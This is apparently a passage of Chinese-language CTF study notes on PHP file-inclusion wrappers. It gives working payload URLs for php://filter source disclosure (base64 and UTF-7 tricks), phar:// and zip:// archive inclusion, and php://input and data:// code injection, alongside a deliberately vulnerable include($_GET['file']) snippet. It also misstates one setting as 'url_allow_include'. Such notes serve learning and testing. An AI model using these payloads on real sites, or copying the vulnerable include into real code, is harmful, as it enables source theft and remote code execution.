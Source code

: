 `php://filter` 表示使用 PHP 过滤器。
`/read` 代表用什么过滤器。
`/resource` 后面跟上要过滤的文件。

通常用法：
```
http://url/?file=php://filter/read=convert.base64-encode/resource=api.php
```

```php
// 后台源码
<?php
include($_GET['file']);
// include(php://filter/read=convert.base64-encoded/resource=api.php);
?>
```

如果 Base64 被过滤了，可以使用 UTF-8 转 UTF-7 打乱 `php` 标签，取消解析，输出源码。
```
php://filter/convert.iconv.utf-8.utf-7/resource=index.php
```

还有一些过滤器，后面不总是 `/read=`。
```
php://filter/string.strip_tags/resource=index.php 
php://filter/string.toupper/resource=index.php
```
#### 让你解析！！！
##### `phar://` `zip://` 
压缩包解析：
```
phar:///tmp/zip.jpg/1.php
phar://
/tmp/zip.jpg
/1.php
```

```
zip:///tmp/zip.jpg#1.php
zip://
/tmp/zip.jpg
#1.php
```
#### 喂你数据！！！
接下来的两个协议都需要 `allow_url_include = On`。
##### `php://input` POST
`php://input` 包含 POST  数据。 `php://input` 是个输入流，应该看作一个文件。
在 `php.ini` 中设置 `url_allow_include = On` ，使得 `php://input` 能获取 POST 中的数据。
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("php://input");
```
不要用 HackBar。如果 POST 传参没有 `a=b` 这样的形式的话，它不会发送数据的。并且它还会进行 URL 编码。
##### `data://`
`data://` 传入数据，也可看作一个文件。
